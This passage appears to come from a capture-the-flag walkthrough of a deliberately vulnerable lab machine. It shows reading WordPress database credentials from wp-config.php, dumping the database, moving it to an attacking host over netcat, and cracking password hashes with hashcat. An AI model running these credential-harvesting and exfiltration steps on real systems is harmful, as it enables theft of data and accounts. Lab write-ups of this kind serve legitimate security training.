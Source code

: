 Then I tried to search for the documentroot in the apache configuration files in the path **/var/www/html/prehistoricforest/** I found the wordpress credentials for mysql.

```bash
www-data@CallahanAutoSrv01:/$ grep -ir 'documentroot' /etc/apache2/
grep -ir 'documentroot' /etc/apache2
/etc/apache2/sites-available/default-ssl.conf:          DocumentRoot /var/www/html
/etc/apache2/sites-available/000-default.conf:  DocumentRoot /var/www/html
/etc/apache2/sites-available/2.conf:    DocumentRoot /var/thatsg0nnaleaveamark
www-data@CallahanAutoSrv01:/$ cd /var/www/html/prehistoricforest/
cd /var/www/html/prehistoricforest/
www-data@CallahanAutoSrv01:/var/www/html/prehistoricforest$ cat wp-config.php
...
/** The name of the database for WordPress */             
define('DB_NAME', 'wordpress');                      
                                                       
/** MySQL database username */                      
define('DB_USER', 'wordpressuser');    
                                  
/** MySQL database password */                       
define('DB_PASSWORD', 'CaptainLimpWrist!!!');  
                                              
/** MySQL hostname */            
define('DB_HOST', 'localhost');      
                                            
/** Database Charset to use in creating database tables. */   
define('DB_CHARSET', 'utf8');                                 
                                                          
/** The Database Collate type. Don't change this if in doubt. */ 
define('DB_COLLATE', '');
...
```

I dumped the wordpress database and transferred it to the attacking machine.

```bash
www-data@CallahanAutoSrv01:/var/www/html/prehistoricforest$ mysqldump -u wordpressuser -p wordpress > /tmp/wpdump.sql
<orest$ mysqldump -u wordpressuser -p wordpress > /tmp/wpdump.sql            
Enter password: CaptainLimpWrist!!!
www-data@CallahanAutoSrv01:/var/www/html/prehistoricforest$ nc -vlnp 6565 < /tmp/wpdump.sql
```

```bash
root@kali:~$ nc 192.168.179.149 6565 > wpdump.sql
```

I filtered the password hashes to the file wphashes.txt, then I cracked these with hashcat and I got the password **tomtom1**, this belongs to tom user.

```bash
root@kali:~$ grep 'wp_users' wpdump.sql | grep -oP '\$P\$[^,]*' | cut -d "'" -f 1 > wphashes.txt
root@kali:~$ hashcat -a 0 -m 400 wphashes.txt rockyou.txt
...
$P$BmXAz/a8CaPZDNTraFb/g6kZeTpijK.:tomtom1

root@kali:~$ grep '$P$BmXAz/a8CaPZDNTraFb/g6kZeTpijK.' wpdump.sql
```
